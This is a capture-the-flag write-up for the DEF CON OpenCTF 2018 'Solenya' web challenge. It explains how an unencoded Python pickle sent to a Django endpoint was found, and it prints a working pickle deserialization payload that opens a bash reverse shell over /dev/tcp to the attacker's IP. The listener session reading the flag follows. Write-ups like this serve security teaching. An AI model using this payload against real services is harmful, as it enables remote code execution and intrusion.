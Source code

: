 #Solenya, web300

Challenge text: "Whatever this thing is, it's shaming us. 172.31.2.105".

So we start off with only an IP address, that does not respond on port 80. We quickly try a few other common ports, and it turns out that a webserver is being hosted on port 8000. We are greeted by an image of 'Pickle Rick':

![Pickle Rick](https://github.com/noproplem/defcon_openctf_2018/blob/master/solenya/images/1.png)

There isn't much going on besides the image, so we check for a /robots.txt file. Turns out that there is a robots.txt file, and it contains LOTS of references to subdirs on the website. These should all be enumerated and hopefully one of them will be interesting. However, before setting up something to do that, lets jsut check a few manually.

By visting a random subdir from the robots.txt file we get a Django debug message - since the Django installation apparently is in debug mode. The message mentions the subdirs: /wubbalubbadubdub and /fingerprint. This seems interesting. Visiting http://172.31.2.105:8000/fingerprint we see an image of Birdman, and on http://172.31.2.105:8000/wubbalubbadubdub there is a login prompt. We try a few common sets of credentials: admin/password and so on, but no luck.

The name of the challenge, "Solenya", and the "pickle Rick" references could very likely be a hint about Pickle (https://docs.python.org/3/library/pickle.html), which is used to serialize python objects. Since the webpage runs Django this seems likely. Exploiting picke to deserialize an object that gives code executin is a common trick (https://blog.nelhage.com/2011/03/exploiting-pickle/), so we basically just need to find out how to send some data that will be deserialzied by the website, then create and send our payload.

After playing around with the login prompt we see that after a login attempt a huge POST request is mad eto /fingerprint:

```
POST /fingerprint/ HTTP/1.1
Host: 172.31.2.105:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.31.2.105:8000/wubbalubbadubdub/login/?next=/wubbalubbadubdub/
content-type: application/json; charset=utf-8
token: SSdtIFBpY2tsZSBSaWNrIQ==
origin: http://172.31.2.105:8000
Content-Length: 34686
Cookie: csrftoken=eVxZrS4DcdnACesJcLtxLq8hfFVXnnY1UgTUyx6yb6Ac1yeWRXrerGtX0zjWC1dz
Connection: close

S'{"hash":"58c9ee941b8434d28dd5692628dc2ff9","vectors":[{"key":"user_agent","value":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0"},{"key":"language","value":"en-US"},{"key":"color_depth","value":24},{"key":"device_memory","value":-1},{"key":"hardware_concurrency","value":4},{"key":"resolution","value":[1280,720]},{"key":"available_resolution","value":[1215,696]},{"key":"timezone_offset","value":420},{"key":"session_storage","value":1},{"key":"local_storage","value":1},{"key":"indexed_db","value":1},{"key":"cpu_class","value":"unknown"},{"key":"navigator_platform","value": . . . (continues)
```

The body looks like a serialized object. Lets see how it is made. On http://172.31.2.105:8000/wubbalubbadubdub/ there is a reference to http://172.31.2.105:8000/static/base.min.js which has:
```
(snippet)
new Fingerprint2().get(function(hash, vectors) {
    const data = {
        hash: hash,
        vectors: vectors
    };
    const json_data = JSON.stringify(data);
    const pickle_data = pickle.dumps(json_data);
    const url = `${window.location.origin }/fingerprint/`;
    fetch(url, {
        method: "POST",
        mode: "cors",
        cache: "no-cache",
        credentials: "same-origin",
        headers: {
            "Content-Type": "application/json; charset=utf-8",
            "Token": "SSdtIFBpY2tsZSBSaWNrIQ=="
        },
        redirect: "follow",
        body: pickle_data
    })
});
```

So we can see that indeed the body is just a nonencoded pickle object. Time to create pickle object that gives us a shell:

```python
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/bash','-c', 'bash >/dev/tcp/172.31.127.232/8181 0>&1 2>&1'),))
    #return (subprocess.Popen, (('/bin/nc','172.31.127.232','8181'),))

print cPickle.dumps(RunBinSh())
cPickle.loads(cPickle.dumps(RunBinSh()))
```
We send this using burp proxy while having a nc listener on our own host:

```
nc -lp 8181

ls -lah
total 118M
drwxr-xr-x 5 jaguar jaguar 4.0K Aug  9 06:20 .
drwxr-xr-x 3 root   root   4.0K Aug  9 06:14 ..
drwxr-xr-x 3 jaguar jaguar 4.0K Aug  9 06:20 app
-r--r--r-- 1 jaguar jaguar   79 Aug  9 06:20 .flag
-rwxr-xr-x 1 jaguar jaguar  535 Aug  9 06:12 manage.py
-rw-r--r-- 1 jaguar jaguar  164 Aug  9 06:12 nginx-solenya
-rw-r--r-- 1 jaguar jaguar   24 Aug  9 06:12 requirements.txt
-rwxr-xr-x 1 jaguar jaguar 3.4K Aug  9 06:12 setup.sh
-rw-r--r-- 1 jaguar jaguar  199 Aug  9 06:12 solenya-uwsgi.service
drwxr-xr-x 2 jaguar jaguar 4.0K Aug  9 06:12 static
drwxr-xr-x 2 jaguar jaguar 4.0K Aug  9 06:12 templates
-rw-r--r-- 1 jaguar jaguar  238 Aug  9 06:12 uwsgi.ini
-rw-r----- 1 jaguar jaguar 118M Aug 11 20:30 uwsgi.log
cat .flag
--He crawls from bowls of cold soup to steal the dreams of wasteful children--
```

So there we have it "--He crawls from bowls of cold soup to steal the dreams of wasteful children--".

